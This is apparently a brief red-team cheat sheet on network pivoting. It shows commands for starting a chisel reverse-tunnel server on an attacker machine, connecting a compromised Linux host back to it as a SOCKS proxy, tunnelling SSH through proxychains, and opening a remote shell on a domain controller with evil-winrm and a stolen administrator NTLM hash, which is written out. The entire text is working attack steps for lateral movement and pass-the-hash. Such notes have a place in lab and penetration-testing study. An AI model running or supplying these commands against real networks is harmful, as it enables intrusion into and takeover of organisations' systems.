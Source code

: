 Reference: https://ap3x.github.io/posts/pivoting-with-chisel/

## Attacker Server
./chisel_1.9.1_linux_amd64 server -p 8001 --reverse

## Machine 1 (Linux)
chisel client 192.168.1.72 8001 --reverse R:socks:1080
vi /etc/proxychains4.conf # Change socks and port to match socks port.

## Attacker Machine
proxychains ssh

## Attacker Remote Connection to DC01 with stolen NTLM hash
proxychains evil-winrm -i 10.10.83.152 -u administrator -H 59b280ba707d22e3ef0aa587fc29ffe5

